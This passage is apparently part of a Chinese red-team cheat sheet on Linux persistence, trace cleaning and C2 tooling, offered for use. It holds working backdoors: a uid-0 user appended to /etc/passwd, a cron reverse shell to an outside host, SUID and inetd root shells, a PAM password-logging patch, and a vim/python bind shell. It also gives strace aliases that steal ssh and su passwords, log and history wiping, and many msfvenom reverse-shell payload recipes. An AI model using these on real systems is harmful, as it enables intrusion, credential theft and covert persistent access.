3. 使用 disown 命令,让某个作业忽略 hangup 信号
```
disown -h %1
```

4. 使用 screen 命令 建立断开模式的会话(原理和 setid 一样,只不过直接构造了一个环境)
```bash
screen -S <name>
```

---

## 权限维持技巧

**压缩包运行命令**
```
touch ''$'\n''id;'
touch ''$'\n''ls -la;'
tar -cf runme.tar *
chmod +x runme.tar
./runme.tar
```

**ssh + http 端口复用**
- [yrutschle/sslh](https://github.com/yrutschle/sslh)

**避免记录登录日志**
```
ssh -T user@host /bin/bash -i
```

---

## 后门隐藏进程

**相关文章**
- [linux常见backdoor及排查技术](https://xz.aliyun.com/t/4090)
- [Linux后门整理合集](https://www.secpulse.com/archives/59674.html)
- [Linux基础软件威胁疑云：从已知到“未知”](https://mp.weixin.qq.com/s/M346b8Kz_3r-yoDnBLuV8g)

**添加 root 权限后门用户**

我们的目标就是在这个文件中追加一条,一个带有密文且 id 为 0 的账号.

密码加密使用下面的命令 `perl -e 'print crypt("password", "AA"). "\n"'`

所以我们最终想要在 passwd 文件中的条目是这个样子 `backdoor:AA6tQYSfGxd/A/A:0:0:me:/root:/bin/bash`

执行写入 `echo "backdoor:AA6tQYSfGxd/A:0:0:me:/root:/bin/bash">>/etc/passwd`

**Crond 开机自启后门**

先创建 /etc/xxxx 脚本文件(名字自己改),利用该脚本进行反弹.以下脚本代表全自动反弹到 8.8.8.8 的 53 端口.
```vim
vim /etc/xxxx
    #!/bin/bash
    if netstat -ano|grep -v grep | grep "8.8.8.8">/dev/null
    then
    echo "OK">/dev/null
    else
    /sbin/iptables --policy INPUT ACCEPT
    /sbin/iptables --policy OUTPUT ACCEPT
    bash -i >& /dev/tcp/8.8.8.8/53 0>&1
    fi

chmod +sx /etc/xxxx
```
```vim
vim /etc/crontab
    */1 * * * * root /etc/xxxx

service cron reload #不同发行版重启方式不一样
service cron start
```

然后在 8.8.8.8 的服务器上使用 NC 接收 Shell 即可.

`nc -vv -lp 53`

**SUID shell**

首先, 先切换成为 root 用户,并执行以下的命令:
```bash
dawg:~# cp /bin/bash /.woot
dawg:~# chmod 4755 /.woot
dawg:~# ls -al /.woot
-rwsr-xr-x 1 root root 690668 Jul 24 17:14 /.woot
```
当然, 你也可以起其他更具备隐藏性的名字,我想猥琐并机智的你,肯定能想出很多好的名字的.
文件前面的那一点也不是必要的,只是为了隐藏文件( 在文件名的最前面加上".",就可以在任意文件目录下进行隐藏) .
```bash
# 现在,做为一个普通用户,我们来启用这个后门:
id
    uid=1000(fw) gid=1000(fw) groups=1000(fw)
id
    uid=1000(fw) gid=1000(fw) groups=1000(fw).woot-2.05b$
# 为什么不行呢? 因为 bash2 针对 suid 有一些护卫的措施. 但这也不是不可破的:
```
```bash
/.woot -p
id
    uid=1000(fw) gid=1000(fw) euid=0(root) groups=1000(fw)
# 使用 -p 参数来获取一个 root shell. 这个 euid 的意思是 effective user id
# 这里要特别注意的是,作为一个普通用户执行这个 SUID shell 时,一定要使用全路径.
```
如何查找那些具有 SUID 的文件: `dawg:~# find / -perm +4000 -ls` 这时就会返回具有 SUID 位的文件啦.

**远程后门**

```vim
vim /etc/inetd.conf
    #discard stream tcp nowait root internal
    #discard dgram udp wait root internal
    daytime stream tcp nowait root /bin/bash bash -i

inetd
然后就可以用 nc 来爆菊
```
可以修改/etc/services文件,加入以下的东西
```vim
vim /etc/services
    woot 6666/tcp #evil backdoor service
vim /etc/inetd.conf
    woot stream tcp nowait root /bin/bash bash -i
```

**PAM 后门**

主要思路:pam_unix_auth.c 打补丁安装到正常的 PAM 模块中.
1、获取目标系统所使用的 PAM 版本:
`rpm -qa |grep pam`
2、编译安装 PAM
3、将本地 pam_unix_auth.c 文件通过打补丁方式,编译生成.
4、编译完后的文件在:modules/pam_unix/.libs/pam_unix.so,后门密码为 root123,并会在 /tmp/pslog 记录 root 登录密码.

**vim 后门**

此方法适用于安装了 vim 且安装了 python 扩展(绝大版本默认安装)的 linux 系统,至于恶意脚本 dir.py 的内容可以是任何功能的后门.如 python 版本的正向后门监听 11 端口.

检测有无扩展
```bash
vim --version | grep python
```

enter the mal script directory 、execute the script and then remove the script
`cd /usr/lib/python2.7/site-packages`

```python
vim dir.py
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time

if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',11))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True)
```
`$(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py`

read more [[DARK] Weapons of Text Destruction](https://github.com/jaredestroud/WOTD/blob/master/%5BDARK%5D%20Weapons%20of%20%20Text%20Destruction.pdf)

**终端解析 \r 导致的问题**
```bash
echo -e "<?=\`\$_POST[good]\`?>\r<?='PHP Test Page >||<                  ';?>" >/var/www/html/test.php
```

**strace 记录 ssh 登录密码**

注意 bash_profile 是在登录的 shell 执行的,bashrc 是在非登录的 shell 执行,即如果你只是想每次在登录的时候让它去执行,这个时候你可以把你的命令写在 .bash_profile,如果你想每次打开一个新的终端的时候都去执行,那么应该把命令写在 .bashrc 中.
```bash
alias ssh='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log  \
 -e read,write,connect  -s2048 ssh'
# 也可记录 su 密码
alias su='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log  \
 -e read,write,connect  -s2048 su'

grep "read(3" /tmp/sshpwd-名字自己补全  | tail -n 11
```

**预加载型动态链接库后门 ld.so.preload**

在 linux 下执行某个可执行文件之前,系统会预先加载用户定义的动态链接库的一种技术,这个技术可以重写系统的库函数,导致发生 Hijack
strace 命令 id 的时候可以发现有预先去读取 `/etc/ld.so.preload` 文件(也可使用设置 LD_PRELAOD 环境变量方式),如果我们将事先写好的恶意 so 文件位置写入 ld.so.preload 文件,这个时候就会达到"劫持"的效果.
比较好用的工具有 Vegile 和 cub3 等
[cub3](https://github.com/mempodippy/cub3),这个工具使用了 LD_PRELOAD 和系统的扩展属性去隐藏文件.
其中还有一种是通过修改动态链接器来加载恶意动态链接库的后门,通过替换或者修改动态链接器中的默认预加载配置文件 `/etc/ld.so.preload` 路径的 rootkit,此方法更加隐蔽,这个方法的较成熟的利用工具是 [Vlany](https://github.com/mempodippy/vlany)

**进程注入**

使用 ptrace 向进程中注入恶意 so 文件工具[linux-inject](https://github.com/gaffe23/linux-inject/)

**内核级 rootkit**

如 mafix、[Diamorphine](https://github.com/m0nad/Diamorphine)

**藏文件和文件夹**
1. 比如创建一个名字开头带 `.` 的 Webshell 或者文件夹,默认情况下是不会显示出来的,浏览器访问的时候加点访问就行.(查看方法:ls -a)

    ```
    touch .webshell.php    创建名字为 .webshell.php 的文件
    mkdir .backdoor/       创建名字为 .backdoor 的文件夹
    ```

2. 除非在管理员喝多了或者脑子转不过来的情况下,是绝对不会发现的!至少我用了这么久是没几个发现的.如果是文件的话浏览器访问直接输 ... 就行,目录同理.

    ```
    touch ...       创建名字为 ... 的文件
    mkdir ...       创建名字为 ... 的文件夹
    ```

**Linux/Unix 修改文件时间戳**

直接将时间戳修改成某年某月某日.如下 2014 年 01 月 02 日.
`touch -t 1401021042.30 webshell.php`

**相关工具**
- **Vegile**
    - https://github.com/Screetsec/Vegile.git

---

## 痕迹清理

**相关文章**
- [开小灶:隐藏bash历史命令的小技巧](http://www.4hou.com/system/13988.html)
- [Ubuntu bash不记录history方法](https://www.cnblogs.com/sevck/p/7997739.html)

**相关工具**
- [Macr0phag3/LLC](https://github.com/Macr0phag3/LLC)

**web 日志**

如 access.log,error.log.使用 sed 进行定向清除

`sed -i -e '/192.169.1.1/d'`

**history**

- 常用设置
    ```bash
    unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG
    export HISTFILE=/dev/null
    export HISTSIZE=0
    export HISTFILESIZE=0
    ```

- 清除历史操作命令
    ```bash
    history -c
    ```

- 对 `~/.bash_history` 进行定向清除
    ```diff
    # 查看 BASH 保留历史命令的条目
    cat /etc/profile | grep HISTSIZE
    vim /etc/profile

    # 保留最新执行的5条命令
    ++ HISTSIZE=5
    ```

- 设置注销时删除命令记录
    ```diff
    cat /etc/skel/.bash_logout

    ++ rm -f $HOME/.bash_history

    # 这样,系统中的所有用户注销时都会删除其命令记录,如果只需要针对某个特定用户,,如 root 用户进行设置,则可只在该用户的主目录下修改 `/$HOME/.bash_history` 文件增加相同的一行即可.
    ```

---

# C2-RAT

**相关教程**
- [TideSec/BypassAntiVirus](https://github.com/TideSec/BypassAntiVirus)

**相关文章**
- [Shellcode 杀软对抗实战（启航篇）](https://www.anquanke.com/post/id/190354)

**杀软速查**
- [r00tSe7en/get_AV](https://github.com/r00tSe7en/get_AV) - Windows杀软在线对比辅助
- [gh0stkey/avList](https://github.com/gh0stkey/avList) - 逐个查询对应杀软厂商名称

---

## Framework

- [trustedsec/trevorc2](https://github.com/trustedsec/trevorc2) - 走 HTTP 的 C2
- [AhMyth/AhMyth-Android-RAT](https://github.com/AhMyth/AhMyth-Android-RAT) - 用于 android 的 RAT
- [neoneggplant/EggShell](https://github.com/neoneggplant/EggShell) - 用于 iOS/macOS/Linux 的 RAT
- Metasploit
- [Veil](https://github.com/Veil-Framework/Veil)
    ```bash
    git clone https://github.com/Veil-Framework/Veil.git
    cd Veil/setup/
    ./setup.sh -c
    ./Veil.py
    ```
- [HERCULES](https://github.com/noosec/HERCULES)
    ```bash
    确保电脑里有 Go
    git clone https://github.com/noosec/HERCULES.git
    cd HERCULES
    wget -c https://github.com/fatih/color
    go get github.com/fatih/color
    go run Setup.go
    cp -rf /root/go/src/github.com /usr/lib/go-1.7/src/github.com
    cd SOURCE/
    go run HERCULES.go
    ```
- [ASWCrypter](https://github.com/AbedAlqaderSwedan1/ASWCrypter)
- [Shellter](https://www.shellterproject.com/)
- [foolav](https://github.com/hvqzao/foolav)
- [hyperion](https://github.com/nullsecuritynet/tools/tree/master/binary/hyperion)
    ```bash
    unzip hyperion.zip
    cd hyperion/
    i586-mingw32msvc-g++ Src/Crypter/*.cpp -o hyperion.exe
    wine hyperion.exe shell.exe(之前用 msf 生成的文件) crypted.exe(混淆之后的文件)
    ```
- [d4rk007/RedGhost](https://github.com/d4rk007/RedGhost) - linux 的后渗透框架,可用于权限维持、提权等操作，半图形化.实际测试感觉不太行。
- [f0rb1dd3n/Reptile](https://github.com/f0rb1dd3n/Reptile)

---

### msfvenom

msfvenom 可用于生成正向或反向 shell 的 payload，配合 meterpreter 使用进行渗透测试相当方便，不过在实际使用时，需要进行相应的免杀处理

**查看**
```bash
msfvenom -l [ payloads | encoders | nops | platforms | archs | encrypt | formats | all ]
```

**连接**
```bash
msfconsole
use exploit/multi/handler
set payload <payload-name>      # 例如 set payload windows/x64/meterpreter_reverse_tcp
set lhost <lhost>
set lport <lport>
set EnableStageEncoding false
set ExitOnSession false
exploit -j -z
```

#### binaries

**linux**
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f elf > shell.elf

msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f elf -o x86_linux.elf

msfvenom -a x64 --platform Linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f elf -o x6_4linux.elf

msfvenom -a x64 --platform Linux -p linux/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f elf-so -o payload.so
```

**windows**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=xxxx -f exe > ./vu.exe

msfvenom --payload windows/meterpreter/reverse_tcp LHOST=********* LPORT=8080 -f exe --platform windows --arch x86 -e x86/shikata_ga_nai -i 10 > /var/www/html/update.exe

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.3.226 LPORT=6666 -a x86 --platform Windows -f dll >x86.dll

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.3.226 LPORT=6666 --platform Windows -f dll >x64.dll
```

**mac**
```bash
msfvenom -p osx/x86/shell_reverse_tcp lhost=your-ip  lport=your-port -f macho > shell.macho

msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f macho -o payload.macho
```

**android**
```bash
msfvenom -p android/meterpreter/shell_reverse_tcp lhost=your-ip  lport=your-port -f apk > shell.apk
```

#### web

**php**
```bash
msfvenom -p php/meterpreter_reverse_tcp lhost=your-ip lport=your-port -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

**asp**
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f asp > shell.asp
```

**Aspx**
```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f aspx -o payload.aspx
```

**jsp**
```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=your-ip lport=your-port -f raw > shell.jsp
```

**war**
```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=your-ip lport=your-port -f war > shell.war
```

**javascript**
```bash
msfvenom -p windows/shell_reverse_tcp lhost=your-ip lport=your-port -f js_le -e generic/none

msfvenom -p linux/x86/shell_reverse_tcp lhost=your-ip lport=your-port CMD=/bin/bash -f js_le -e generic/none
```

**Nodejs**
```bash
msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f raw -o payload.js
```

#### scripting

**python**
```bash
msfvenom -p cmd/unix/reverse_python lhost=your-ip lport=your-port -f raw > shell.py
msfvenom -p python/shell_reverse_tcp lhost=your-ip lport=your-port -f raw
```

**jar**
```bash
msfvenom -p java/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f raw -o shell.jar
```

**bash**
```bash
msfvenom -p cmd/unix/reverse_bash lhost=your-ip lport=your-port -f raw > shell.sh
```

**perl**
```bash
msfvenom -p cmd/unix/reverse_perl lhost=your-ip lport=your-port -f raw > shell.pl
```

**vbscript**
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=your-ip lport=your-port exitfunc=thread -f vbs -a x86 --platform windows > shell.vbs
C:\Documents and Settings\Administrator>cscript shell.vbs
```

**Powershell**
```bash
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1

msfvenom -a x86 --platform windows -p windows/powershell_reverse_tcp LHOST=192.168.3.226 LPORT=8888 -e cmd/powershell_base64 -i 3 -f raw -o x86_shell.ps1

msfvenom -a x64 --platform windows -p windows/x64/powershell_reverse_tcp LHOST=192.168.3.226 LPORT=8888 -e cmd/powershellbase64 -i 3 -f raw -o x64_shell.ps1
```

**Ruby**
```bash
msfvenom -p ruby/shell_reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f raw -o payload.rb
```

**Lua**
```bash
msfvenom -p cmd/unix/reverse_lua LHOST=192.168.3.226 LPORT=8888 -f raw -o payload.lua
```

#### shellcode

**linux based shellcode**
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f <language>
```

**windows based shellcode**
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f <language>
```

**mac based shellcode**
```bash
msfvenom -p osx/x86/shell_reverse_tcp lhost=your-ip lport=your-port -f <language>
```

---

### msfencode

```bash
msfvenom windows/shell_reverse_tcp lhost=your-ip lport=your-port R -e x86/shikata_ga_nai -t exe -c -9 -x /usr/share/windows-binaries/plink.exe(载体) -o ./shell.exe
```

## Payload Generation

**相关工具**
- [mdsecactivebreach/CACTUSTORCH](https://github.com/mdsecactivebreach/CACTUSTORCH)
- [mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)
- [tyranid/DotNetToJScript](https://github.com/tyranid/DotNetToJScript)
- [TheWover/donut](https://github.com/TheWover/donut)
- [KINGSABRI/DotNetToJScriptMini](https://github.com/KINGSABRI/DotNetToJScriptMini)

## Loader

**相关文章**
- [CS免杀-Shellcode Loader原理(python)](https://mp.weixin.qq.com/s/-WcEW1aznO2IuCezkCe9HQ)
- [CS免杀-环境和编码补充(python)](https://mp.weixin.qq.com/s/_uMFatf4_yfGit-Xu7Ml9A)
- [利用加载器以及Python反序列化绕过AV](https://www.echocipher.life/index.php/archives/648/)
- [利用Python反序列化运行加载器实现免杀](https://my.oschina.net/u/4581868/blog/4380404)
- [shellcode加载总结](https://uknowsec.cn/posts/notes/shellcode%E5%8A%A0%E8%BD%BD%E6%80%BB%E7%BB%93.html)
- [从剖析CS木马生成到开发免杀工具](https://www.anquanke.com/post/id/210001)

**相关工具**
- C/C++
    - [knownsec/shellcodeloader](https://github.com/knownsec/shellcodeloader)
    - [clinicallyinane/shellcode_launcher](https://github.com/clinicallyinane/shellcode_launcher)
    - [DimopoulosElias/SimpleShellcodeInjector](https://github.com/DimopoulosElias/SimpleShellcodeInjector)
    - [lengjibo/FourEye](https://github.com/lengjibo/FourEye)
    - [1y0n/AV_Evasion_Tool](https://github.com/1y0n/AV_Evasion_Tool)

- go
    - [brimstone/go-shellcode](https://github.com/brimstone/go-shellcode)

- misc
    - [Gality369/CS-Loader](https://github.com/Gality369/CS-Loader) - 远程 shellcode+RC4
    - [Arno0x/ShellcodeWrapper](https://github.com/Arno0x/ShellcodeWrapper)

## Tricks

**相关文章**
- [回忆杀-特征码免杀](https://uknowsec.cn/posts/notes/%E5%9B%9E%E5%BF%86%E6%9D%80-%E7%89%B9%E5%BE%81%E7%A0%81%E5%85%8D%E6%9D%80.html)

## 签名

**相关文章**
- [SigFlip:将数据隐写到已签名的PE文件上](https://mp.weixin.qq.com/s/aOyNgfp6oHCNS8JqrradkQ)

**相关工具**
- [Tylous/Limelighter](https://github.com/Tylous/Limelighter)
- [secretsquirrel/SigThief](https://github.com/secretsquirrel/SigThief)
- [med0x2e/SigFlip](https://github.com/med0x2e/SigFlip)
